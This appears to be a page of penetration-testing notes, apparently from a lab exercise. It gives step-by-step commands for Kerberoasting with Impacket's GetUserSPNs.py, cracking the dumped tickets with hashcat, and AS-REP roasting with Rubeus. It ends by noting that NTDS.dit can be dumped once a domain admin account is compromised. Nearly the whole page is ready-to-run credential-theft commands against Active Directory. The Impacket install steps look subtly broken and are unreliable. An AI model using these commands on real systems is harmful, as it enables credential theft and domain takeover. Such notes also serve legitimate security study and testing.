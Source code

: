 #### Kerberoasting w/ Impacket

##### Installation

Impacket installs haven't been stable since 0.9.20. Install < 0.9.20

```bash
# navigate to preferred directory to save tools
cd /opt

# Download precompiled package
git clone https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19

# Navigate to directory
cd Impacket-0.9.impacket_0_9_19

# Install all dependancies
pip install .
```

##### Use

```bash
# Navigate to where GetUserSPNs.py is located
cd /usr/share/doc/python3-impacket/examples/

# will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.183.153 -request

#crack hash
hashcat -m 13100 -a 0 hash.txt Pass.txt
```

Can now dump NTDS.dit if domain admin service account.

### AS-REP Roasting w/ Rubeus

Similar to Kerberoasting: dumps the krbasrep5 hashes of accounts that have Kerberos pre-authentication disabled. Unlike Kerberoasting, these users do not have to be service accounts. the user must have pre-authentication disabled.

```powershell
# will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes
# Execute on target
Rubeus.exe asreproast
```


